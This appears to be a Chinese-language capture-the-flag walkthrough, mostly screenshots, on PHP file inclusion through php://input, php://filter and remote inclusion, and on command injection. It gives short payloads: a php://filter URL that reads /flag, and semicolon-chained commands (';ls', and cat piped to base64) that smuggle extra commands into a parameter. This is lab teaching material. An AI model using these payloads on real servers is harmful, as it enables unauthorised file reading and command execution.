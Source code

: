 ##  php://input
![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736918697555-3d8c07b7-d2ed-49b8-ae0a-a7e06d59e375.png)

> ![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736918749759-7464f4c3-fb7c-48f9-b672-7eb894283e5e.png)
>

在 phpinfo 里可以看到使用条件已经具备

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736918807858-52ff7c36-4d67-40bb-ac81-0b3b20299d09.png)

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736919175189-2f259a7b-dd9c-4fe2-8a2f-70e82c5f1c1f.png)![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736919204782-e14ed755-31be-4589-9ec5-29a24ebc5120.png)

## 读取源代码
![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736919739560-c05c0e2e-4f79-42bc-8599-747bcb75c6d5.png)

> ![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736918749759-7464f4c3-fb7c-48f9-b672-7eb894283e5e.png?x-oss-process=image%2Fformat%2Cwebp)
>

使用 php://filter 读取文件

```php
/?file=php://filter/resource=/flag
```

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736919973171-9d816437-4426-4f54-88aa-4dea7432ae69.png)

## 远程包含
![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736920027838-f49bf204-7f33-4c7c-81b0-503053ff6516.png)

和 php://input 同解

## 命令注入
![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736923914149-dd666dc5-d3bb-496f-a18b-de132c542f21.png)

看到源码

> 多命令执行，直接用分号截断
>

```php
;ls
```

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736925002791-3477ec7e-3cad-486e-a610-ae637e4a3e6e.png)

因为 php 无法直接在网页中显示所以要编码

```php
;ls ;cat 2404596998962.php | base64
```
